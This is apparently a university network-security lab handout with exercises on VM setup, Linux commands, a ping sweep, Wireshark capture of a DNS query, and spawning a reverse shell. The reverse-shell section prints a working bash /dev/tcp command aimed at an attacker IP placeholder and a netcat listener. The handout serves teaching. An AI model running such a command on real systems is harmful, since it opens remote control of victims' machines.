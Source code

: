 ﻿## 0. Goals

1. Set up basic tools and software packages,
2. Get familiar with basic Linux commands, and
3. Refresh your memory about basic networking tools

## 1. Setting Up a Virtual Machine

You need to set up one virtual machine (VM) to complete this lab (and other future labs). If you are not familiar with VMs, refer to online articles about virtualization (e.g., [https://en.wikipedia.org/wiki/Virtual_machine)](https://en.wikipedia.org/wiki/Virtual_machine). In summary, virtualization allows you to run a guest OS on top of your host OS in isolation. Virtualization needs two main components: (1) Hypervisor, which is the software that allows you to run the guest OS, and (2) VM Image, which contains the OS and installed packages.

**Setup.** We recommend using VirtualBox [(https://www.virtualbox.org/)](https://www.virtualbox.org/) as the hypervisor. It is a free software and easy to install and use. The setup has three simple steps:

1. Download and install VirtualBox
2. Download an Ubuntu 16.04 LTS (32-bit) image
3. Create a VM using the downloaded image
4. (Optional) Install VirtualBox Guest Additions:[ https://www.techjunkie.com/ova-virtualbox/ ](https://www.techjunkie.com/ova-virtualbox/)

In addition to this Ubuntu VM, we may need to use a Kali Linux VM in some labs (only when mentioned explicitly).

## 2. Exploring Linux Commands

### 2.1 Getting Familiar with Basic Linux Commands

Explain in one sentence the main functionality of each of the following commands:

| | | | | |
|-|-|-|-|-|
|man|id|df -Th|ps aux|ldd|
|which|scp|tar|netstat|lsof|
|ifconfig|netcat|dig|curl|

### 2.2 Running and Implementing Basic Programs

#### 2.2.1 Ping Sweep

Ping Sweep program returns a list of IP addresses that are mapped to live hosts. Your **task** is to implement a simple Ping Sweep program using any scripting/programming language of your choice.

The inputs of the program are three integers a, b, c representing the network address a.b.c.0/24, and your program should return the list of IP addresses that map to live hosts.

In your report, you need to mention how you implemented the Ping Sweeper program, and the proper way to run it.

#### 2.2.2 Using Wireshark

Wireshark is one of the main tools used to capture packets. Your **task** is to explore the outputs of Wireshark after running the dig command.

First, you need to be running Wireshark to capture packets on the main network interface. Then, run the following command:  $ dig sfu.ca

Answer the following questions:

- How many transmitted and received packets did this command result with? Explain in 2--3 sentences what has just happened (including the used network protocol).
- Show screenshots of each of these packets using the Packet Details window in Wireshark. The screenshots should clearly show packets content.

#### 2.2.3 Running Reverse Shell

Once an attacker gains access to a victim machine, one of their options to control the victim machine remotely is to run a *reverse shell.* This enables the attacker to stealthily execute arbitrary commands on the victim machine.

One way to spawn a reverse shell is to run the following two commands:

1. **Victim Machine:**  $ /bin/bash -i > /dev/tcp/<ATTACKER\_IP>/9090 0<&1 2>&1
2. **Attacker Machine:**  $ nc -nlvp 9090

Assume that you gained access to a victim machine and could run a reverse shell. Answer the following questions:

- Which command should you run first? Why?
- Show a screenshot from the victim machine when you attempt to spawn a reverse shell using the wrong order.
- Explain how these two commands work.
- Take a proper screenshot showing that you successfully executed a reverse shell.
- Are the transmitted packets on the wire encrypted? Prove your answer with proper screenshots (Hint: can you use Wireshark?)
- Suggest another method to run a reverse shell (with sufficient explanation), and show proper screenshots of running a reverse shell using this method.

*Note:* You may run these commands on one or two VMs.

## 3. Gaining a Secret Key

Visit the web page given during the lab.

Your **task** is to get a secret key from that host. In your lab report, you need to write all the steps you performed to get the secret key (with proper screenshots).

*Notes:*

- You do not need to gain access to the host; you can get the secret key without logging to it.
- Do not try to overload this host.
- The secret key is a readable phrase, e.g., “sp1d3rman”, “i<3sfu” etc.

